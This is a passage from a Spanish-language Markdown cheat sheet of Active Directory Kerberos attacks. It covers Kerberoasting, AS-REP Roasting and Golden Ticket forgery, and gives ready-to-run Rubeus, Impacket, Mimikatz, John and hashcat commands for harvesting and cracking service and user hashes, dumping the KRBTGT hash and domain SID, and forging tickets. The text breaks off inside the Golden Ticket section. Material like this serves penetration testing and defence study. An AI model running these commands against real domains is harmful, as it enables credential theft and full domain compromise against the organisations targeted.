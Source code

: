 ## Ataques

### Kerberoasting
- **Descripción**: Ataca cuentas de servicio con SPN configurado.
- **Método**: Solicita tickets TGS y los crackea offline.
- **Herramienta**: `Rubeus` (Windows), `Impacket` (Kali Linux).
- **Comandos**:
  - **Windows**:
    ```bash
    Rubeus kerberoast /outfile:hashes.txt
    ```
  - **Kali Linux**:
    ```bash
    # Enumerar SPNs y solicitar tickets TGS
    python3 GetUserSPNs.py -request -dc-ip <DC_IP> example.com/user:password
    # Crackear los hashes obtenidos
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```

### AS-REP Roasting
- **Descripción**: Ataca cuentas de usuario con preautenticación Kerberos deshabilitada.
- **Método**: Solicita un ticket AS-REP y crackea la respuesta.
- **Herramienta**: `Rubeus` (Windows), `Impacket` (Kali Linux).
- **Comandos**:
  - **Windows**:
    ```bash
    Rubeus asreproast /outfile:asreps.txt
    ```
  - **Kali Linux**:
    ```bash
    python3 GetNPUsers.py -dc-ip <DC_IP> example.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
    # Crackear los hashes obtenidos
    hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
    ```

### Golden Ticket
- **Descripción**: Falsifica un Ticket Granting Ticket (TGT) con el hash de KRBTGT.
- **Método**: Dump de hash KRBTGT y creación de TGT.
- **Herramienta**: `Mimikatz` (Windows), `Impacket` (Kali Linux).
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-... /krbtgt:<hash> /id:500
    ```
  - **Kali Linux**:
    ```bash
    # Dump de hash KRBTGT y SID del dominio
    secretsdump.py -just-dc-ntlm example.com/user:password@<DC_IP>
    lookupsid.py example.com/user:password@<DC_IP>
